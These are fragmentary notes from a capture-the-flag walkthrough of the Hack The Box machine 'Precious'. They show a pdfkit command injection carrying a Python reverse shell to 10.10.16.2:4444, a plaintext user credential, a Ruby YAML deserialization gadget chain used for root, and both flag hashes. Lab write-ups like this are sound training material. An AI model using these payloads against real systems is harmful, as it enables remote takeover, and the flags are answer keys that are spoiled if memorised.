

Precious
{kind=link}
Added to etc/hosts
{kind=link}
had to use htb ip http://10.10.16.2:80
{kind=link}
{kind=link}
{kind=link}
Generated by pdfkit v0.8.6
tried base64 reverse
{kind=link}

“an application could be vulnerable if it tries to render a URL that contains query string parameters with user input”
“if the provided parameter happens to contain a URL encoded character and a shell command substitution string, it will be included in the command that PDFKit executes to render the PDF”
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("**10.10.16.2**",**4444**));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("**sh**")'
[http://10.10.16.2:80/?name= python3](http://10.10.16.2/?name=%20%60python3) -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.2",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
foothold
{kind=link}
{kind=link}
henry:Q3c1AqGHtoI0aXAYFH
{kind=link}
user flag
653582454a0a1c8a06f34358ddea6ba7
checking privs
{kind=link}
{kind=link}
{kind=link}
---
- !ruby/object:Gem::Installer
i: x
- !ruby/object:Gem::SpecFetcher
i: y
- !ruby/object:Gem::Requirement
requirements:
!ruby/object:Gem::Package::TarReader
io: &1 !ruby/object:Net::BufferedIO
io: &1 !ruby/object:Gem::Package::TarReader::Entry
read: 0
header: "abc"
debug_output: &1 !ruby/object:Net::WriteAdapter
socket: &1 !ruby/object:Gem::RequestSet
sets: !ruby/object:Net::WriteAdapter
socket: !ruby/module 'Kernel'
method_id: :system
git_set: "<COMMAND HERE>"
method_id: :resolve{kind=link}
{kind=link}
{kind=link}
root flag
91edfddd7b7889ea9233730aa0748c5f